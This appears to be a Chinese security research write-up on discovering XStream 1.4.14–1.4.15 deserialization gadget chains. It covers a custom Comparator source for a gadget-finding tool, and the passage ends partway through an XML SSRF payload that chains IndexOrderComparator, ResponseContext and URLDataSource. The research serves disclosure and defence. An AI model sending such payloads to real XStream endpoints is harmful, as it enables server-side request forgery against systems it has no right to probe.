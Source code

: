 输出的xml为

```xml
<java.util.PriorityQueue serialization="custom">
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>1</size>
    </default>
    <int>2</int>
    <string>apple</string>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>

```

然后再用XStream反序列化回去，打好断点。你会看到居然调用了优先队列的readObject函数。

![image-20210119135705897](XStream 1.4.14-14.15 Gadget挖掘过程分享.assets/image-20210119135705897.png)

详细跟进之后可以发现XStream在反序列化优先队列时，会交由SerializableConverter处理。

SerializableConverter实现中会判断反序列化的对象是否支持传统意义上的jdk反序列化，如果支持的话就调用这个对象的readObject函数。

![image-20210119140107580](https://raw.githubusercontent.com/V3geB1rd/ImageCloud/main/typora202103/01/144956-971115.png)

这同时也就意味着可以用beanutils的gadget打jndi注入。但这并不是我们想要的。

稍微调试一下当初beanutils的调用链

![image-20210119140735367](https://raw.githubusercontent.com/V3geB1rd/ImageCloud/main/typora202103/01/145003-20792.png)

在siftDownUsingComparator函数中会调用Comparator.compare，Comparator是可控的。所以我们可以将Comparator.compare作为新的source。

![image-20210119140814605](https://raw.githubusercontent.com/V3geB1rd/ImageCloud/main/typora202103/01/145004-513532.png)

定制source如下，但是发现得到的结果都是无用链。

```java
                if(inheritanceMap.isSubclassOf(method.getClassReference(), new ClassReference.Handle("java/util/Comparator"))&&(method.getName().equals("compare"))){
                    addDiscoveredSource(new Source(method, 0));
                }
```

原因其实也很简单，就是参数污染误报+BFS导致错过了真正的source。打开source.dat之后发现，source才160多个，采用人工排查的方式不用花多少时间，于是开始人工排查。当排查到DataTransferer$IndexOrderComparator.compare方法时，发现可以产生map.get(Object)的新source。

后续以Map.get寻找新的source，结果可以发现老面孔又来了。

#### 发现的Gadget链

##### SSRF

```xml
<java.util.PriorityQueue serialization="custom">
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
            <comparator class="sun.awt.datatransfer.DataTransferer$IndexOrderComparator">
                <indexMap class="com.sun.xml.internal.ws.client.ResponseContext">
                    <packet>
                        <message class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart">
                            <dataSource class="javax.activation.URLDataSource">
                                <url>HTTP://127.0.0.1:9999/ssrf?a=1</url>
                            </dataSource>
                        </message>
```